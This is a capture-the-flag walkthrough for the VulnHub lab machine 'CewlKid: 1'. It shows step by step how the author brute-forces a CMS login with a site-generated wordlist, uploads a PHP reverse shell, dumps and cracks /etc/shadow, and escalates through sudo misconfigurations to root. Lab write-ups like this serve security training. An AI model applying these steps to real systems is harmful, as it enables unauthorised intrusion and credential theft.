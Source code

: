 # CewlKid: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:ac:dd:85       PCS Systemtechnik GmbH
192.168.56.121  08:00:27:d7:32:a1       PCS Systemtechnik GmbH
```

The ip address is `192.168.56.121`, let's scan it.


## 2.Enumeration

```bash
root@kali: nmap -p80,22,8080 -v -sC -sV -oN nmap.out 192.168.56.121

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:87:08:d7:ed:3a:9d:f6:be:91:7e:01:24:c8:74:c0 (RSA)
|   256 d6:22:68:01:2c:e2:c5:72:8e:1b:23:68:77:3e:10:7d (ECDSA)
|_  256 bb:91:85:49:86:fd:af:66:42:a3:f4:12:90:a3:31:6a (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Sitemagic CMS
|_http-title: Welcome - about us
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: E6E1C631192DE24218AC9348293A46CB
```

I begin with port 80 and there is just a simple apache web page, next we go for port `8080` and there is a CMS here

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c8c8f1a4-6e71-4d9d-917d-1f3fd88b54c0)


we immediately see the login page for the CMS and now we need credentials, as the name of the CTF suggests that it is a hint

i can see that `cewl` is the name of wordlist generator base on the site content, lets create a wordlist :

```bash
root@kali: cewl -w wordlist.txt -d 5 -m 4 http://192.168.56.121:8080
```

now we can check for admin login, just catch the request in burp and send it to intruder and wait for a different response length

the passwrod is `letraset`

## 3.Gaining Shell

Inside the panel we see and admin menu which we can upload file in it, just upload a php reverse shell and the load it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e44ab129-72b0-43c1-84be-6513db3b7ad3)


start a listener and navigate to `http://192.168.56.121/files/image/rev.php` to get the shell :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.56.102] from (UNKNOWN) [192.168.56.121] 46618
Linux cewlkid 5.4.0-47-generic #51-Ubuntu SMP Fri Sep 4 19:50:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:45:39 up  1:55,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation (lorem)

Using `sudo -l` we find our sudo permissions and this is where we see that we can run `/usr/bin/cat` as user ipsum :

```bash
$ sudo -l
Matching Defaults entries for www-data on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on cewlkid:
    (ipsum : ipsum) NOPASSWD: /usr/bin/cat
```

let's check which files use ipsum has access to :

```bash
$ find / -user ipsum -type f 2>/dev/null
/var/www/example.com/html/.../nothing_to_see_here
```

let's see the content of it :

```bash
$ sudo -u ipsum /usr/bin/cat /var/www/example.com/html/.../nothing_to_see_here
aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=
bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=
```

decode the strings :

```text
ipsum : SpeakPeople22!

lorem : PeopleSpeak44!
```

Change the user to lorem

## 5.Privilege Escalation (zerocewl)

 Now check sudo permissions again :

```bash
sudo -l
Matching Defaults entries for lorem on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lorem may run the following commands on cewlkid:
    (root : root) NOPASSWD: /usr/bin/base64 /etc/shadow
```

now we can get base64 encode of `/etc/shadow`, get it and merge it with `/etc/passwd` :

```bash
root@kali: unshadow passwd.txt shadow.txt > unshadow.txt
```

use the wordlist we generated earlier again :

```bash
john unshadow.txt --wordlist=wordlist.txt                
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PageMaker        (zerocewl)     
1g 0:00:00:00 DONE (2024-02-17 08:06) 3.125g/s 559.3p/s 2796c/s 2796C/s Follow..Language
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

yes we found another user password, Change user to `zerocewl`


## 6.Privilege Escalation (cewlbeans)

 Check the system with `pspy64` to monitor the processes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fa946de9-bfa4-4510-9c43-3c2b006303f4)


now we see plain credentials of user `cewlbeans`, change user to cewlbeans.

## 7.Privilege Escalation (root)

 Check for sudo permissions :

```bash
cewlbeans@cewlkid:/$ sudo -l
sudo -l
[sudo] password for cewlbeans: fondateurs

Matching Defaults entries for cewlbeans on cewlkid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cewlbeans may run the following commands on cewlkid:
    (ALL : ALL) ALL
```

now we can freely switch to root :

```bash
cewlbeans@cewlkid:/$ sudo bash

root@cewlkid:~# cat root.txt
        ______  ___________    __    ____  __       __  ___  __   _______                    
       /      ||   ____\   \  /  \  /   / |  |     |  |/  / |  | |       \                   
      |  ,----'|  |__   \   \/    \/   /  |  |     |  '  /  |  | |  .--.  |                  
      |  |     |   __|   \            /   |  |     |    <   |  | |  |  |  |                  
      |  `----.|  |____   \    /\    /    |  `----.|  .  \  |  | |  '--'  |                  
       \______||_______|   \__/  \__/     |_______||__|\__\ |__| |_______/                   
                                                                                             
                  .______        ______     ______   .___________.                           
                  |   _  \      /  __  \   /  __  \  |           |                           
                  |  |_)  |    |  |  |  | |  |  |  | `---|  |----`                           
                  |      /     |  |  |  | |  |  |  |     |  |                                
                  |  |\  \----.|  `--'  | |  `--'  |     |  |                                
                  | _| `._____| \______/   \______/      |__|                                
                                                                                             
.______      .___  ___. ___   ___  __    __   ________  ____    __    ____  ______           
|   _  \     |   \/   | \  \ /  / |  |  |  | |       /  \   \  /  \  /   / /  __  \   ______ 
|  |_)  |    |  \  /  |  \  V  /  |  |__|  | `---/  /    \   \/    \/   / |  |  |  | |______|
|      /     |  |\/|  |   >   <   |   __   |    /  /      \            /  |  |  |  |  ______ 
|  |\  \----.|  |  |  |  /  .  \  |  |  |  |   /  /----.   \    /\    /   |  `--'  | |______|
| _| `._____||__|  |__| /__/ \__\ |__|  |__|  /________|    \__/  \__/     \______/          
RmxhZwo=
```

This is how you can finish this box :)










